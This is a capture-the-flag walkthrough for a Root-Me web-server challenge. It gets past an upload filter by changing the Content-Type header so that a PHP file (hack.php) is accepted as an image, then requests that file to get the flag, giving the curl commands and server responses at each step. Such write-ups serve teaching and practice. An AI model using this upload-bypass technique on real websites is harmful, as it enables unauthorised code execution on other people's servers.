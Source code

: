 The idea is the same than before. We will try to inject malicious php code using the upload function of the website.

But if we upload the same file than before (hack.php.png), we will see that we now have an error message coming from the website:


```
The image “...//hack.php.png” cannot be displayed because it contains errors.
```

If you use the Burp Suite or any request interceptor, you will see that when uploading your image, you are sending the following line with it:

```
Content-Type:text/plain
```
 which is the MIME type, and which is why the image is not correctly displayed. If you have a request interceptor, then you can just change it to:

 ```
 Content-Type:image/gif
 ```
 before sending the request, and your good to go!

But you know me, I am going to use curl.

First things first,
```
curl -v http://challenge01.root-me.org/web-serveur/ch21/
```
You got a session_id, that we are going to use. For the sake of simplicity, we define the following variables:

```
url="http://challenge01.root-me.org/web-serveur/ch21/"
cookies="PHPSESSID=1p8h3sceog69563i3k9v5g5qm2"
```

Then we are going to upload the file thanks to curl. For this, we go in the folder where our file hack.php is, and we type
```
curl -s  -b "$cookies" -F submit=upload -F "file=@hack.php;filename=hack.php;type=image/jpeg" "${url}?action=upload&galerie=upload"
```

We receive a response containg

```
File information&nbsp;:<br><ul><li>Upload: hack.php</li><li>Type: image/jpeg</li><li>Size: 0.0361328125 kB</li><li>Stored in: /hack.php</li></ul><b>File uploaded</b>.</body></html>
```

It seems like our upload was successful ! Let's now access this corrupted file.

```
curl -s  -b "$cookies" "${url}?galerie=upload"
```

We can find the link to our file:

```
<a href='./galerie/upload/1p8h3sceog69563i3k9v5g5qm2//hack0.php'>
```

Then we just curl it :

```
curl -s  -b "$cookies" "${url}galerie/upload/1p8h3sceog69563i3k9v5g5qm2//hack.php"
```

And we have the flag in the response !
